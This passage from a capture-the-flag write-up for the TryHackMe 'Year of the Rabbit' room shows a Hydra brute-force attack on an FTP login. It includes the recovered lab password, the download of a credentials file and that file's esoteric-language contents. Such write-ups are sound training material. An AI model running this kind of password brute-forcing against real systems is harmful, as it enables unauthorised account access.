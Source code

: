 Nice, so we now have the username to the FTP service we found open earlier, so we cam make a list of these potential passwords and feed it to hydra and get the FTP creds:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Year of the Rabbit$ hydra -l ftpuser -P ftp_password_list ftp://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-24 20:25:38
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.102.97:21/
[21][ftp] host: 10.10.102.97   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-24 20:26:05
```

Lets FTP to the box and see what it has:

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23 01:48 Eli's_Creds.txt
226 Directory send OK.
```

It has one file, `Eli'_Creds.txt`, so we can get that file down and take a look at it:
```bash
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00 secs (3.9719 MB/s)
```

When we cat the file, it seemingly is an esoteric language:
```bash
jeffrowell@kali:~/Documents/TryHackMe/Year of the Rabbit$ cat Eli\'s_Creds.txt
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
